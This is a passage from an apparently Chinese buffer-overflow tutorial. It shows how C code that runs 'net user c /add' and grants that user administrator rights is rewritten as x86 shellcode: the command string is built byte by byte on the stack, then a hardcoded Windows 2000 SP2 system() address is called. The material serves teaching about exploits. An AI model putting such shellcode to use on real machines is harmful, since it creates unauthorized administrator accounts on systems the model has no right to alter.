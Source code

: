 即执行用户添加命令，再将用户执行升为管理员。我测试了一下，将程序命名为“AddUserC.c”，编译执行，成功了！添加了一个名为“c”的管理员用户，如图 2－22。

![](img/Q 版缓冲区溢出教程 57786.jpg)

然后最困难的地方到了：把上面的程序改成汇编。

第一句“LoadLibrary(“msvcrt.dll”)”可以把老师给的程序抄过来。

第二、三句就要把老师给的代码稍微改一下，将参数改成这里的参数才行。

对“system("net user c /add")”这句话，就按 Windows 系统执行函数的原理，先参数入栈，再 CALL system 函数的地址。这里的参数是“net user c /add”字符串的地址，所以先在栈中构造出“net user c /add”，即这样：

```
mov esp,ebp ;        把 ebp 的内容赋值给 esp
push ebp ;             保存 ebp，esp 则减 4
mov ebp,esp ;        给 ebp 赋新值，将作为局部变量的基指针
xor edi,edi ;
push edi ;  压入 0，esp－4，作用是构造字符串的结尾\0 字符
push edi
push edi
push edi ;   加上上面，一共有 16 个字节，用来放“net user c /add” 
mov byte ptr [ebp-0Fh],6eh ;n
mov byte ptr [ebp-0eh],65h ;e 
mov byte ptr [ebp-0dh],74h ;t
mov byte ptr [ebp-0ch],20h ;
mov byte ptr [ebp-0bh],75h ;u
mov byte ptr [ebp-0ah],73h ;s
mov byte ptr [ebp-09h],65h ;e
mov byte ptr [ebp-08h],72h ;r
mov byte ptr [ebp-07h],20h ;
mov byte ptr [ebp-06h],63h ;c
mov byte ptr [ebp-05h],20h ;
mov byte ptr [ebp-04h],2Fh ;/
mov byte ptr [ebp-03h],61h ;a
mov byte ptr [ebp-02h],64h ;d
mov byte ptr [ebp-01h],0h ;0 
```

字符串构造好后，再把 ESP——现在“net user c /add”串的地址作为参数，压入堆栈：

```
lea eax,[ebp-0fh] ;
push eax ;              字符串地址作为参数入栈 
```

最后 CALL system 函数的地址（即 0x78019B4A）：

```
mov eax, 0x78019B4A ;        win2000 sp2 system 函数地址
call eax ;                              调用 system 
```

上面的代码弄了半天才弄好。测试了一下，先把另外两句保留，只把“system("net user c /add")”改为上面的汇编，得到“AddUserASM.cpp”，运行结果如图 2－23，成功了！

![](img/Q 版缓冲区溢出教程 59071.jpg)
